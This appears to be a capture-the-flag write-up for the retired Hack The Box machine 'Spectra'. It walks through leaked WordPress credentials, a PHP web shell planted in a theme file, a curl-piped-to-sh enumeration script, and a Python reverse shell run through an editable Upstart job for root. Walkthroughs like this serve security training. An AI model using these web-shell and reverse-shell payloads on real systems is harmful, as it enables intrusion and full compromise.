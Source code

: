 # Spectra

This is the write-up for the box Spectra that got retired at the 26th June 2021.
My IP address was 10.10.14.3 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.229    spectra.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/spectra.nmap 10.10.10.229
```

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.1 (protocol 2.0)
| ssh-hostkey:
|_  4096 52:47:de:5c:37:4f:29:0e:8e:1d:88:6e:f9:23:4d:5a (RSA)
80/tcp   open  http    nginx 1.17.4
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.17.4
3306/tcp open  mysql   MySQL (unauthorized)
```

## Checking HTTP (Port 80)

The website shows the following text and has two links:
```
Issue Tracking
Until IT set up the Jira we can configure and use this for issue tracking.

Software Issue Tracker
Test
```

- _Software Issue Tracker_ forwards to _spectra.htb/main/index.php_
- _Test_ forwards to _spectra.htb/testing/index.php_

The website on _/main_ hosts a **WordPress** blog page with one post from the user _administrator_.
The website on _/testing_ hosts an index page with many files that start with _"wp-"_ and are seemingly the source files of the WordPress page.

When browsing to a PHP file, they get processed and show that there is an _"Error establishing a database connection"_.
There is a file called _wp-config.php.save_ that does not get processed and the source code can be viewed, which contains credentials for a database:
```php
/** The name of the database for WordPress */
define( 'DB_NAME', 'dev' );

/** MySQL database username */
define( 'DB_USER', 'devtest' );

/** MySQL database password */
define( 'DB_PASSWORD', 'devteam01' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );
```

After testing these credentials on the **MySQL** service on port 3306, it shows that our IP is not allowed to login:
```
mysql -h 10.10.10.229 -u devtest -p -D dev

ERROR 1130 (HY000): Host '10.10.14.3' is not allowed to connect to this MySQL server
```

Instead the password works on _/main/wp-login.php_ with the username _administrator_ and we get a login into **WordPress**.

### Exploiting WordPress

To get command execution on the box, it is possible to edit PHP files and execute arbitrary PHP code.

In this case, the PHP code in one of the themes can be modified for command execution:
```
Appearance --> Theme Editor --> Select theme to edit: Twenty Nineteen --> Select --> 404.php
```

Adding PHP code into the beginning of the file:
```
<?php system($_REQUEST['cmd']); ?>
(...)
```

Browsing to _404.php_ to test command execution with the `whoami` command:
```
http://spectra.htb/main/wp-content/themes/twentynineteen/404.php?cmd=whoami

```
It shows the user as _nginx_ and command execution works, so lets start a reverse shell connection.
After pasting the code of _php-reverse-shell.php_ from the **Laudanum** scripts into the _404.php_ file and reload it, the listener on my IP and port 9001 starts a reverse shell as the user _nginx_.

## Privilege Escalation

To get an attack surface, it is recommended to run any **Linux Enumeration script**:
```
curl 10.10.14.3/linpeas.sh | sh
```

In the file _/etc/autologin/passwd_ is a password:
> SummerHereWeCome!!

There is another user called _katie_ on the box and the password works for this user:
```
ssh katie@10.10.10.229
```

### Privilege Escalation to root

The command `sudo -l` shows that the user _katie_ can run a command with root privileges:
```
User katie may run the following commands on spectra:
    (ALL) SETENV: NOPASSWD: /sbin/initctl
```

With [initctl](https://linux.die.net/man/8/initctl) it is possible to communicate with **Upstart** to run processes when a system starts.
The configuration files for this service are in the directory _/etc/init_.

Modifying the configuration file _/etc/init/test1.conf_ to execute a command:
```
(...)
script

    export HOME="/srv"
    echo $$ > /var/run/nodetest.pid

    exec python2.7 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.3",9002));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
(...)
```

Restarting the process _test1_:
```
sudo /sbin/initctl start test1
```

After restarting the process, the listener on my IP and port 9002 starts a reverse shell as root!
